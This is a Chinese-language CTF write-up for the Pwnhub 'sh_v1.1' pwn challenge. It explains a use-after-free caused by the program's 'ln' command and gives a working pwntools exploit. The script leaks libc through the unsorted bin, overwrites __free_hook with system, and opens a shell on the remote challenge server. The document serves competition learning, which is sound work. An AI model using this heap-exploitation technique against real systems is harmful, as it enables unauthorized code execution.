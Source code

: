 ```yaml
---
title: 「PWN」【Pwnhub 三月公开赛】 Pwn Writeup WP 复现
authors: [nova]
tags: ['CTF', 'Pwn', 'writeup', 'wp']
---
```


## sh_v1.1
题目实现了 shell 的一些功能，不过这些我实在没看懂逻辑，不过是混淆所以也无所谓。

![image-20230311120537451](https://cdn.novanoir.moe/img/image-20230311120537451.png)

在 `ln src dest` 这个命令中实现了软连接，不同于 `cp` 的是它直接把 `pointer_arr` 复制了过来，而不是 `malloc` 之后再 `strncpy` 拷贝，在 `rm` 原文件的时候也并没有同时删除这个软连接文件，导致可以实现 UAF



版本是 2.31，直接 Unsorted bin leak libc 后 gedit 打 freehook 即可

exp:

```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe nt bash -c".split()

# sh = process(['./sh_v1.1'])
sh = remote("121.40.89.206", 34883)
# libc = ELF('/home/nova/glibc-all-in-one/libs/2.31-0ubuntu9.9_amd64/libc.so.6')

for i in range(9):
    sh.sendlineafter(b'>>>>', f'touch {i}'.encode())
    sh.sendline(chr(i+ord('a'))*0x20)

sh.sendlineafter(b'>>>>', f'ln 1 9'.encode())  # 9 <--> 1
sh.sendlineafter(b'>>>>', f'ln 2 10'.encode())  # 10 <--> 2

for i in range(8,-1,-1):
    sh.sendlineafter(b'>>>>', f'rm {i}'.encode())


sh.sendlineafter(b'>>>>', f'cat 9'.encode())

libc_base = u64(sh.recvuntil(b'\n', drop=True).ljust(8, b'\x00')) - 96 - 0x10 - 0x1ebb70
__free_hook = libc_base + 0x01eeb28
system_addr = libc_base + 	0x055410
print("libc_base >>", hex(libc_base))

sh.sendlineafter(b'>>>>', f'gedit 10'.encode())
# gdb.attach(sh)
# pause(4)
sh.sendline(p64(__free_hook) + p64(0))

sh.sendlineafter(b'>>>>', f'touch 11'.encode())
sh.sendline(b'/bin/sh')

sh.sendlineafter(b'>>>>', f'touch 12'.encode())
sh.sendline(p64(system_addr))

sh.sendlineafter(b'>>>>', f'rm 11'.encode())
sh.interactive()
```

